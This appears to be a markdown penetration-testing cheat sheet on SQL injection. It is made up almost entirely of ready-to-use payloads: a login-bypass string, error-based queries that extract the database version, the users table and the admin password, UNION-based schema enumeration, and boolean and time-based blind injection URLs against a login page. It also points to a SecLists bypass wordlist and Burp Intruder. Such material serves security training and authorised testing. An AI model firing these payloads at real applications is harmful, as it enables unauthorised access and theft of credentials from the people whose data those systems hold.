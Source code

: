 # 💉 SQL Injection

Try [seclists wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post\_page-----c95930e9523d--------------------------------) for sql, use burpsuite intruder to test on the parameter

Basic payload to test:

```
'OR '' = '
```

## Error Based Payloads

Sometimes SQL injection can lead to authentication bypass.

Something like this can be used. Try playing around by switching `'` and `"`&#x20;

```php
whatever' OR 1=1 -- //
```

To enumerate version on error based SQLi

```SQL
' or 1=1 in (select @@version) -- //
```

We can directly enumerate the database if we get output:

```sql
' OR 1=1 in (SELECT * FROM users) -- //
```

If we get an error try the columns one by one:

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

To get passwords of specific user:

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



## UNION-based Payloads

We can find number of columns in the original query with:

```SQL
' ORDER BY 1-- //
```

Then to do a union attack:

```SQL
%' UNION SELECT database(), user(), @@version, null, null -- //
```

Now we can check if there are other tables in this database.

{% code overflow="wrap" %}
```mysQL
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
{% endcode %}



## Blind SQLi

Blind SQLi occurs when no database response is returned. This case we can use _boolean_ or _time_ based logic.



To try _boolean_ based SQL:

```http
http://<ip>/login.php?user=admin' AND 1=1 -- //
```

If both the statements are true the application will return a true value hence if we get a true value we can say admin is in the database.



To try _Time_ based SQLi:

```http
http://<ip>/login.php?user=admin' AND IF (1=1, sleep(3),'false') -- //
```

This will make the application hang if the user is present.

